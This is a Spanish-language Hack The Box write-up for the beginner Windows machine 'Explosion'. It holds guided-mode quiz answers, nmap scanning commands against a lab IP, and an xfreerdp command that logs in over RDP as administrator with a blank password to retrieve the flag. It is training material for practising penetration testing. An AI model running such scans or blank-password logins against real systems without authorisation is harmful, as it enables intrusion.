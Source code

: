 ```yaml
---
title: Writeup explosion - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - explosion
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina explosion en Hack The Box.
keywords:
  - writeup explosion
  - hack the box explosion
  - resolución máquina explosion
  - explosion hack the box
  - htb explosion
---
```

---------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+0/Windows/Explosion)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=n9vKrxPCvTE)
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=7NhsVvICHf0)

---

#veryeasy #windows  #startingpoint #nmap #ping #xfreerdp

----
# Guided Mode

1)¿Qué significa la sigla de 3 letras RDP? 
	 Remote Desktop Protocol

2)¿Qué es un acrónimo de 3 letras que se refiere a la interacción con el host a través de una interfaz de línea de comandos?
	CLI

3)¿Y las interacciones de la interfaz gráfica de usuario? 
	GUI

4)¿Cuál es el nombre de una antigua herramienta de acceso remoto que venía sin cifrado por defecto y escucha en el puerto TCP 23?  
	[[telnet]]

5)¿Cuál es el nombre del servicio que se ejecuta en el puerto 3389 TCP? 
	ms-wbt-server

6)¿Qué interruptor se utiliza para especificar la dirección IP del host de destino cuando se utiliza xfreerdp?  
	/v:

7)¿Qué nombre de usuario nos devuelve correctamente una proyección de escritorio con una contraseña en blanco?
	administrator

---------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.1.13
nmap -p- --open -vvv -n -Pn -sS --min-rate 5000 10.129.1.13 -oG allports 
extractPorts allports         
nmap -sCV -p135,139,445,3389,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671 10.129.1.13 -oN target
```

![[Explosion1.png]]

![[Explosion2.png]]

![[Explosion3.png]]

![[Explosion4.png]]
*TTL:* Maquina windows
*Puertos relevantes:*
	`3389` [[xfreerdp]]

---------
# Intrusion a la maquina con [[xfreerdp]]

```shell
xfreerdp /v:10.129.1.13:3389 /u:administrator
```
Con este comando conseguis una interfaz remota en la maquina victima, y estaba la flag en un txt dentro del escritorio
![[Explosion5.png]]

---------
